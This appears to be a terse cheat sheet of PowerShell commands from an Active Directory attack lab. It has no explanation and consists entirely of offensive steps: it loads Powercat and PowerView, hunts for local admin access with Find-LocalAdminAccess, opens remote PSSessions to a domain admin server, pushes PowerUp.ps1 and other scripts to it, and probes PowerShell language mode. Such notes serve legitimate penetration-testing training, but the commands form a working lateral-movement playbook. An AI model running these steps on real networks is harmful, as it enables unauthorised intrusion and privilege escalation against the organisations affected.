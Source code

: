 `. .\Powercat.ps1`
`. .\PowerView.ps1`
`Find-LocalAdminAccess`
`$proc = GetProcess`
`$sess = New-PSSession -ComputerName dcorp-admins.dollarcorp.moneycorp.local`
`Enter-PSSession -Session $sess`

`Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock{whoami,hostname}`
`Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath C:\Temp\PowerUp.ps1`

`Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock{$ExecutionContext.SessionState.LanguageMode}`

`help *language*`
`help *mode*`

`. .\Hello.ps1`
`Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock ${function:hello}`
`ls function:`

`$sess`
`Invoke-Command -FilePath C:\Temp\Script.ps1 -Session $sess`
`Enter-PSSession -Session $sess`
`exit`